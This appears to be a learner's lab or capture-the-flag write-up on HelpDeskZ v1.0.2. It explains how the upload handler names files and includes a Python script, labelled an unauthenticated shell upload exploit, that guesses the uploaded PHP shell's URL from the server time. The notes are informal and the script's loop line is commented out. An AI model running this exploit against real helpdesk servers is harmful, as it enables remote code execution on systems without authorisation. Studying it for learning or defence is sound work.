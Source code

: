 

"Something like it. But you can shorten the range by giving it something closer to the what the server time is. If you know the server is a certain time, no need for the loop to start at 0
Right now, it is 3:25 PM for me. If I know the server time is 3:15 PM, I can safely start the loop around the 8 minute mark and stop probably around the 12 minute mark"

just a guess

the first part checks for error with captcha. uploads the directory, then proceeds to define the variables. 
ext variable defines the file extensions.PATHINFO_EXTENSION get the extension of a file if the file uses dots in the parameter name it will clean it up by returning the last extension.  php.jpg returns .jpg 

FILENAME does the md5 stuff then sets the extension with the .ext variable. 
file uploaded moves the file into the directory

the last variable UPLOADEDFILE complete path for the uploaded file.
second if statement
move_uploaded_file if the forum was completed, lang checks against other languages. ​                         

So it might produce an error it still leaves the file on the host.

Editing the rce.py 

### rce.py

 is a python script that will try and predict the name of the suploadded file by using the system time of the server computer. I had orginally thought it was a time zone thing GMT time is 8 or 12 our ahead or behind but thats not the point.   

< Date: Wed, 23 Jan 2019 18:19:57 GMT 

my time is 5 minutes off from the system clock.  5*60 = 300 just need to change the range in for x in range(250, 500): time.time() gmt time which is think is some kind of internal system clock. 

```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]
currentTime = int(time.time())

####for x in range(250, 500):#####

    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"

```

